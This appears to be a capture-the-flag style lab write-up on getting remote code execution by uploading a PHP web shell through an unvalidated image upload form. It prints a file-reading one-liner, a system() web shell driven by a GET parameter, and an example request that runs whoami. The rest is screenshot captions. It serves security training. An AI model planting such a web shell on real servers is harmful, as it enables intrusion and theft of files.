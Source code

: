 # Remote code execution via web shell upload
# Objective
This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.\
\
To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.\
\
You can log in to your own account using the following credentials: `wiener:peter`
# Solution
## Analysis
### PHP basic one-liners
```php
<?php echo file_get_contents('/path/to/target/file'); ?>

<?php echo system($_GET['command']); ?>
GET /example/exploit.php?command=whoami HTTP/1.1
```

### Upload request example
|![](Images/image.png)|
|:--:| 
| *Test* |

## Exploitation
|![](Images/image-1.png)|
|:--:| 
| *PHP code* |
|![](Images/image-2.png)|
| *PHP payload code upload* |
|![](Images/image-3.png)|
| *Path to uploaded file* |
|![](Images/image-4.png)|
| *Triggering uploaded PHP file* |
